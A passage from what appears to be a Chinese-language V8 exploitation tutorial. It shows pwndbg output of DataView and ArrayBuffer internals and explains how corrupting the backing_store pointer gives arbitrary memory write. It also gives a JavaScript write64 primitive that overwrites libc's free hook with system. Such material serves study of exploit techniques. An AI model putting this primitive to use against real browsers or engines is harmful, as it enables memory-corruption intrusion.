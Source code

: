 将上述脚本单独存储为一个js文件，然后在gdb中调试：

```assembly
pwndbg> r
... ...
67
0x1fa2f294b521 <DataView map = 0xe16c3e81719>
... ...
pwndbg> job 0x1fa2f294b521
0x1fa2f294b521: [JSDataView]
 - map: 0x0e16c3e81719 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x24c3b8b4aff9 <Object map = 0xe16c3e81769>
 - elements: 0x190f33840c71 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - buffer =0x1fa2f294b4e1 <ArrayBuffer map = 0xe16c3e821b9>  <-- DataView的buffer信息
 - byte_offset: 0
 - byte_length: 16
 - properties: 0x190f33840c71 <FixedArray[0]> {}
 - embedder fields = {
    0, aligned pointer: (nil)
    0, aligned pointer: (nil)
 }
pwndbg> job 0x1fa2f294b4e1
0x1fa2f294b4e1: [JSArrayBuffer]
 - map: 0x0e16c3e821b9 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x24c3b8b4e981 <Object map = 0xe16c3e82209>
 - elements: 0x190f33840c71 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 0x55fbe7cf1d00  <---- 存储实际内存地址的backing_store属性
 - byte_length: 16
 - detachable
 - properties: 0x190f33840c71 <FixedArray[0]> {}
 - embedder fields = {
    0, aligned pointer: (nil)
    0, aligned pointer: (nil)
 }
pwndbg> telescope 0x55fbe7cf1d00    <---- buffer的实际内存地址
00:0000│   0x55fbe7cf1d00 ◂— 0x44434241 /* 'ABCD' */
01:0008│   0x55fbe7cf1d08 ◂— 0x0
... ↓
```

从上面可以发现，DataView对象的buffer结构体中存储着的backing_store属性，记录的就是实际DataView申请的Buffer的内存地址。如果我们将这个backing_store指针修改为我们想要写入的内存地址比如0x41414141，那么我们再调用view.setUint32(0, 0x44434241, true)类似指令时，实际上就是向内存地址0x41414141处写入了0x44434241，从而达到了任意地址写入的效果。这个基于DataView的写入，就不会触发FloatArray写入高地址的访问异常。

因此，我们可以利用上述思路，编写对高地址内存进行改写的write64原语，具体实现如下所示：

```assembly
var data_buf = new ArrayBuffer(8);
var data_view = new DataView(data_buf);
var buf_backing_store_addr = addressOf(data_buf) + 0x20n;

function write64_dataview(addr, data)
{
    write64(buf_backing_store_addr, addr);
    data_view.setFloat64(0, i2f(data), true);
    %SystemBreak();
    console.log("[*] write to : 0x" +hex(addr) + ": 0x" + hex(data));
}

write64_dataview(libc_free_hook_addr, libc_system_addr);
%SystemBreak();
```
